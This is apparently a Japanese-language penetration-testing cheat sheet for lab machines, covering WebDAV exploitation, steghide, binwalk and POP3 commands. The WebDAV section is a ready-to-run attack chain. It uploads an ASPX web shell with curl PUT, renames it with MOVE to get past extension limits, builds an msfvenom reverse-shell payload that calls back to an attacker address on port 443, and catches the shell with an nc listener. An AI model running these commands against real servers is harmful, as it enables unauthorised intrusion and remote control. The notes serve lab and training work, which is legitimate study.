 ### WebDAV
WebDAVとはファイルの読み取りや編集をHTTPを利用してWebブラウザ上で行えるようにする機能。  
Nmapなどの結果よりPUTメソッドが許可されている場合、アップロードできるファイル形式などを確認する。
```
davtest -u http://10.10.10.15
```
許可されているファイルのアップロード  
phpやaspxファイルが許可されている場合、reverse shellペイロードをアップロードしてシェルを取得する。  
```
curl -X PUT http://10.10.10.15/test.txt -d@test.txt
```
許可されている拡張子に制限がかけられており、MOVEメソッドが許可されている場合にはアップロードしたファイルの拡張子を変更することができる。  
これを利用することで、WebShellの配置などが可能になる可能性がある。
```
# WebShell
cp /usr/share/webshells/aspx/cmdasp.aspx ./
curl -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx
curl -X MOVE -H 'Destination:http://10.10.10.15/cmdasp.aspx' 'http://10.10.10.15/cmdasp.txt'

# msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 -f aspx > reverse.aspx
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.aspx
curl -X MOVE -H 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'
rlwrap nc -lvnp 443
curl http://10.10.10.15/shell.aspx
```

### steghide
ステガノグラフィー
```
steghide extract -sf image.jpg
```

### binwalk
ファームウェアイメージを解析して抽出するツール。
```
binwalk -Me image.png
```
- -e...既知のファイルタイプを自動的に抽出
- -M...抽出されたファイルを再起的にスキャン

## POP3(110)
```
telnet 10.10.10.1 110
```
|  コマンド  |  動作  |
| ---- | ---- |
|  user <ユーザ名>  |  ユーザ名の入力  |
|  pass <パスワード>  |  パスワードの入力  |
|  stat  |  受信メールの件数を表示  |
|  list  |  受信メールの一覧を表示  |
|  retr <メール番号>  |  listコマンドで表示された番号を指定してメールを読む  |
|  dele <メール番号>  |  listコマンドで表示された番号を指定してメールを削除  |
|  quit  |  接続を終了  |
